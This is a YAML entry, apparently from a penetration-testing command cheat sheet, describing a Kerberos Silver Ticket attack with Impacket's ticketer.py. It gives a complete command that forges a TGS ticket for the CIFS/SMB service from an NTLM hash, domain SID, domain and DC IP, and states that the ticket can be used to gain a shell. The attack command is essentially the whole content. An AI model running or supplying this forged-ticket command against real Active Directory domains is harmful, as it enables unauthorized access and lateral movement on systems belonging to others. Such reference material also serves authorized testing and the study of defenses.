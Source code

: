 ```yaml
---
description: |
  Impacket's ticketer.py can perform Silver Ticket attacks, which crafts a valid TGS ticket for a specific service using a valid user's NTLM hash. It is then possible to gain access to that service. The following command crafts a TGS for the SMB service, which can then be used to gain a shell.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

  	SMB Service: cifs

items:
  Username:
    - code: |
        python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 -spn cifs/test.local john
  Hash:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
  Linux:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

